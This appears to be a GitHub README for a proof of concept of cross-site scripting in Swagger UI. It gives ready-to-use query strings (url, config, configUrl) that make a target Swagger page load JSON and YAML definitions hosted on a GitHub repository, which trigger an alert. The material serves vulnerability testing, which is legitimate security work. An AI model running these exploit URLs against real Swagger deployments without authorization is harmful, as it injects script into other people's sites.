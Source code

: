 ## Swagger UI XSS Proof of Concept

### Description

Swagger UI allows you to load externally sourced API definitions using the `?url=`, `?config=`, or `?configUrl=` parameters. When fields such as the description (`description`) in these definitions are processed without filtering HTML or JavaScript, an XSS (Cross-site Scripting) vulnerability may arise.

This PoC includes a minimal YAML and JSON file that triggers `alert(‘XSS-Found!’)` through the aforementioned vulnerability. By loading these files to Swagger UI instances intended for testing, XSS behavior can be observed.

---

### PoC Usage

Use the following query strings with a vulnerable Swagger UI path, such as:

`https://target-swagger.com/swagger/index.html?<QUERY>`

Example: `https://target-swagger.com/swagger/index.html?configUrl=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.json`

#### JSON-based PoC

?url=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.json

?config=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.json

?configUrl=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.json

#### YAML-based PoC

?url=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.yaml

?config=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.yaml

?configUrl=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.yaml


If the instance is vulnerable, the following will execute: alert("XSS-Found!")

---
For educational and authorized testing purposes only.
